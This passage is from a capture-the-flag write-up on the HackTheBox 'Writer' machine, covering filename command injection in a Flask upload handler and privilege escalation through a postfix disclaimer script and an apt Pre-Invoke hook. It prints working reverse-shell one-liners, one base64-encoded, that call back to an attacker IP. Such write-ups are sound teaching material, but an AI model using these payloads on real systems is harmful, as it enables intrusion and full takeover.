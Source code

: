 error = \"Not a valid image file!\"                       return render_template(\'edit.html\', error=error, results=results, id=id)  \n               except:                   error = \"Issue uploading picture\"                   return render_template(\'edit.html\', error=error, results=results, id=id)           else:  \n               error = \"File extensions must be in .jpg!\"\n{% endhighlight %}\n\nNote the file was shortened to better emphasize the source code of the upload feature. Critically insecure code is highlighted in red, and the text highlighted in purple is the segment that the undermentioned exploit focuses on.\n\n### Finding RCE Vulnerability\n\nWithin the source code are multiple examples of insecure code (explored more in detail in the [Post Exploitation Analysis](#h.ui1gvqou6arf) section). One that particularly stands out is the call of os.system on the uploaded filename. Before testing exploits on the target, the exploit was tested out locally to get a closer view as to how the program behaves. Copying the segment of interest, we can get a closer look at how the program treats file names:\n\nCode \n\n{% highlight python %}\nimport urllib  \nimport os  \nfrom flask import request  \n  \nlocal_filename, headers = urllib.request.urlretrieve(\'http://10.10.15.80/.jpg/1.jpg;sleep\')  \nprint(\"The local_filename is\", local_filename)  \nos.system(\"mv {} {}.jpg\".format(local_filename, local_filename))\n{% endhighlight %}\n\nObserve the argument of the urllib.request.urlretrieve() function. The user is in control of this argument. If a user were to upload a file called 1.jpg;sleep, then the server will behave accordingly:\n\n  \nResponse\n\nThe local_filename is /tmp/tmpen3ya1q1\n\nHowever, when changing the argument to be file:///home/0xd4y/business/hackthebox/medium/linux/writer/www/.jpg/1.jpg;sleep 10, then command execution is performed. This works because the urllib function does not correctly rename the file to something safe in the instance that the argument is using the file protocol. Therefore, a file with a malicious name can be uploaded using the image parameter, and this file can then be referenced locally via the file protocol.\n\n### Reverse Shell\n\nAfter uploading a file with the name `0xd4y.jpg;echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash`, it was referenced locally by putting the following in the image_url parameter: file:///var/www/writer.htb/writer/static/img/0xd4y.jpg;`echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash`. A reverse shell was then returned as the www-data user:\n\n{% highlight bash %}\n┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001  \nlistening on [any] 9001 ...  \nconnect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 59938  \n/bin/sh: 0: can\'t access tty; job control turned off  \n$ whoami  \nwww-data\n{% endhighlight %}\n\nPrivilege Escalation\n--------------------\n\n### Kyle\n\nAfter enumerating multiple files in the box, it was found that there is a username and password in a mysql config file called /etc/mysql/my.cnf that points to the dev database:\n\ndatabase = devuser = djangouser  \npassword = DjangoSuperPassword\n\nOne of Kyle’s passwords is located in the databases, albeit it is hashed:\n\npbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=. Cracking this hash reveals that Kyle’s password is marcoantonio.\n\n### John\n\nThe kyle user is part of multiple groups, one of them being the filter group which has permissions to edit the /etc/postfix/disclaimer file. Furthermore, after enumerating the ports running locally on the target, it was found that port 25 is open and running a Postfix SMTP server.\n\nWith pspy[[2]](#ftnt2) running on a separate kyle SSH instance, the following message was sent on the box:\n\nkyle@writer:~$ nc localhost 25  \n220 writer.htb ESMTP Postfix (Ubuntu)  \nMAIL FROM:kyle@writer.htb  \n250 2.1.0 Ok  \nRCPT TO: john@writer.htb  \n250 2.1.5 Ok  \nData  \n354 End data with <CR><LF>.<CR><LF>  \nThanks for reading this writeup!  \n.  \n250 2.0.0 Ok: queued as 9BB6F137\n\nUpon sending this message, the following process occurred in the background:\n\n2021/08/25 00:12:54 CMD: UID=1001 PID=23607  | /bin/sh /etc/postfix/disclaimer -f kyle@writer.htb -- john@writer.htb\n\nThus, the server is running as the john user (note UID=1001), and is executing the /etc/postfix/disclaimer file. Seeing as the kyle user had permission to edit this file, achieving a reverse shell as the john user could be obtained via appending a reverse shell to the top of the file and sending a message:\n\n┌─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001  \nlistening on [any] 9001 ...  \nconnect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 49840  \n/bin/sh: 0: can\'t access tty; job control turned off  \n$ whoami  \njohn\n\nPersistence on this account was maintained by grabbing john’s ssh key.\n\n### Root\n\nJohn is part of the management group which has permission to edit the apt directory /etc/apt/apt.conf.d, a directory which is responsible for containing the apt configurations. As discovered using pspy, there is a cronjob running as root which performs the following command: /usr/bin/apt-get update. Therefore, a malicious configuration that returns a reverse shell can be added to the directory as follows:\n\n{% highlight bash %}\njohn@writer:~$ echo \'apt::Update::Pre-Invoke {\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.80 9001 >/tmp/f\"};\' > /etc/apt/apt.conf.d/0xd4y-pwn\n{% endhighlight %}\n\nWhen the cronjob runs again, a reverse shell is returned as the root user:\n\n{% highlight bash %}\n┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001